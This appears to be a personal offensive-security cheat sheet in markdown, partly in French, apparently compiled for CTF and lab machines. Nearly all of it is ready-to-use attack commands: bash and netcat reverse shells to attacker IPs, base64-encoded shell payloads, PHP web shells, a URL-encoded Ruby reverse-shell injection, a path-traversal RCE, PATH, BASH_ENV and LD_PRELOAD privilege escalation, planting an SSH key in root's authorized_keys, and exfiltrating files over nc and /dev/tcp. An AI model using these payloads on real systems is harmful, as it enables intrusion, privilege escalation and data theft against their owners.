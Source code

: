#offsecMethodo

# RCE
## _SSH Command Execution_
```
ssh -p 2220 bandit18@bandit.labs.overthewire.org -t "cat /home/bandit18/readme"
```

# reverShells
## _listener on a local port_
```
rlwrap nc -lvnp 1234
```
## _reverse shell from the remote server_
```
bash -i >& /dev/tcp/@IP/1234 0>&1
``` 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.16.108 1234 >/tmp/f
```
### can encode payload in Base64 
marche pour les formulaire
```
echo -n 'bash -i >& /dev/tcp/10.10.17.161/1234 0>&1' | base64 -w 0
```
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx | base64 -d | bash
```
## _Create end send a reverse shell php file to webvictim_
```
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.108 1234 >/tmp/f"); ?>' > shell.php
```
```
echo "<?php system("bash -c 'bash -i >& /dev/tcp/10.201.1.201/1234 0>&1'");?>" > shell.php
```
## _form post_
```
curl 'http://remote@ip' -X POST -d 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```
	| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
	| `curl -X POST http://remot@IP/.%0d./.%0d./.%0d./bin/sh -d 'id | nc L@IP port'` | RCE
## _to allow the call backs on port 80 and 443 to our machine_
```
ufw allow from adresseip proto tcp to any port 80,443
```

# Privilege Escalation Linux
```
bash -p
```
	| `sudo -l` | List available `sudo` privileges |
	| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
	| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
	| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
	| `ssh-keygen -f key` | Create a new SSH key |
	| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
	| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |

## SUID / SUDO
### Exploit absolute path env #ExploitNotAbsolutPath 
```
% cat change-pass 
#!/bin/ksh user=$1 
passwd $user
```
Rewriting the script in Korn shell helps us avoid the C-shell problem , but we still have problems. The script is vulnerable to a hacker manipulating the PATH variable. Because the program uses relative path names, a hacker can change his PATH to use his own program instead of the regular /usr/bin/passwd program: 
```
% export PATH='/tmp' 
% echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh" >/tmp/passwd 
% ./change-pass
```
The PATH has been changed, and the change-pass command now runs the /tmp/passwd program instead of the /usr/bin /passwd program that we intended.

```
$ export PATH=/hack/path:$PATH
$ echo $PATH
```

###  script content : system("/bin/bash"); #ExploitBASHENV
```
mkdir /tmp/mych13  
echo "cat .passwd" > /tmp/mych13/startup.sh  
export BASH_ENV=/tmp/mych13/startup.sh  
./script
```
`BASH_ENV` est une variable d'environnement utilisée dans le shell Bash sur les systèmes Linux. Elle spécifie le chemin d'accès vers un fichier qui sera exécuté avant le démarrage de chaque session Bash non interactive.

Une session Bash non interactive est généralement celle qui est utilisée pour exécuter des scripts plutôt que pour une interaction directe avec l'utilisateur dans un terminal. Lorsque vous exécutez un script Bash, la variable `BASH_ENV` peut être utilisée pour spécifier un fichier contenant des configurations spécifiques qui doivent être chargées avant l'exécution du script.

Par exemple, si vous avez un fichier de configuration spécifique pour vos scripts Bash, comme des variables d'environnement particulières ou des paramètres spécifiques au script, vous pouvez le spécifier en utilisant la variable `BASH_ENV`. Cela permet d'assurer que ces configurations sont en place avant l'exécution du script.

```
cat /tmp/toto - |./script
```

### Si le résultat de `sudo -l` contient ``env_keep+=LD_PRELOAD`` ou ``(root) SETENV: NOPASSWD: /opt/monitor.sh``

`SETENV:`: Autorise l'utilisateur à utiliser l'option `-E` ou `--preserve-env` avec sudo, ce qui permet de préserver l'environnement de l'utilisateur lors de l'exécution de la commande.
En utilisant `LD_PRELOAD`, vous pouvez forcer un programme à utiliser des versions spécifiques de fonctions, même si celles-ci ne font pas partie des bibliothèques standard du système.
```bash
gcc -shared exp -o exp -nostartfiles
```
$
```bash
LD_PRELOAD=/tmp/exploit ./program
```
pour le proxy_chain
``` bash
sudo http_proxy=http://10.10.16.108:1234 /opt/monitor.sh
```

# Transferring Files
Start a local webserver 
```
python3 -m http.server 80
```
Download a file on the remote server from our local machine 
```
wget http://10.10.14.1/linpeas.sh
```
## _curl_
```
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```
## _base64_
Convert a file to `base64` 
```
base64 shell -w 0
```
Convert a file from `base64` back to its orig
```
echo f0VMR...SNIO...InmDwU \| base64 -d > shell
```
## _aws_
Copie an shell file on remote s3 bucket
```
aws --endpoint=http://s3.domaine_name s3 cp shell.php s3://domaine_name
```
## _ssh_
Transfer a file to the remote server with `scp` (requires SSH access) 
```
scp linenum.sh user@remotehost:/tmp/linenum.sh
```
Transfer a file from the remote server
```
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```
## **with nc**
	on local
```
nc -lvp port > file
```
 on remote host
```
nc -w 3 l@ip port < file
``` 
```
cat /opt/manage/execute_query > /dev/tcp/10.10.16.108/4321
```

